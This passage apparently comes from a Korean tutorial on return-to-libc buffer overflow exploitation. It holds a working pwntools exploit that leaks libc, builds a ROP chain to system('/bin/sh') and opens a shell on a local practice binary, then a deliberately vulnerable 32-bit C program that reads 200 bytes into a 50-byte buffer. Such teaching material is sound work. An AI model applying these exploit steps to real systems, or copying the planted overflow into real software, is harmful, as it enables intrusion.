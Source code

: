 - exploit
```python
from pwn import *

p=process('./rtl_64')
#p=gdb.debug('./rtl_64')
#context.log_level='debug'

buf_size=0x40
sfp_size=0x8
binsh=0x404020

main_ret_addr=0x40119a

libc_system=0x50d70
libc_start_main=0x29d90
libc_pop_rdi_ret_gdt=0x2a3e5

payload=b''

payload+=b'a'*(buf_size+sfp_size)
p.sendafter(b'BOF1\n',payload)

p.recvuntil(payload)
libc_base=u64(p.recv(6)+b'\x00'*2)-libc_start_main

payload=b''
payload+=b'a'*(buf_size+sfp_size)
payload+=p64(libc_base+libc_pop_rdi_ret_gdt)
payload+=p64(binsh)
payload+=p64(main_ret_addr)
payload+=p64(libc_base+libc_system)

p.sendafter(b"BOF2\n",payload)

p.interactive()
```


# 예제2(32bit)

- 문제 코드
```c
#include <stdio.h>
#include <stdlib.h>

char binsh[] = "/bin/sh";

int main(void){
    char buf[50];
    printf("system addr: %p\n", &system);
    printf("binsh addr: %p\n", &binsh);

    printf("BOF\n");
    read(0, buf, 200);

    return 0;
}
```
